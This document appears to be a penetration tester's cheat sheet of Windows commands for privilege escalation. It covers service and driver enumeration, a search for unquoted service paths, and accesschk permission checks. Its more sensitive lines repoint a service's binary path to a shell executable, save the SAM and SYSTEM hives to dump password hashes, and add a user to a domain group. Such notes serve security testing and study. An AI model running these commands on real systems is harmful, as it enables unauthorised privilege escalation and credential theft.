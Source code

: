 # dos commands

## see running service processes
tasklist /SVC

## windows services and drivers
net start

## service paths
https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths
```dos
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## installed drivers
driverquery

## active network connections
netstat -ano

## show environment variables
set

## access check sysinternals
upload accesschk.exe
```dos
ac.exe /accepteula -uwcqv "Authenticated Users" *
```

## services sc

### enable service
set to auto start
sc config SVC_NAME start= auto

### set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

### start service
net start SVC_NAME

## kill process by id
taskkill /f /pid 1234

## admin / system
### dump registry secretsdump hashes
reg save HKLM\sam sam
reg save HKLM\system system

## net

### add user to domain group
net group GroupName UserName /domain /add
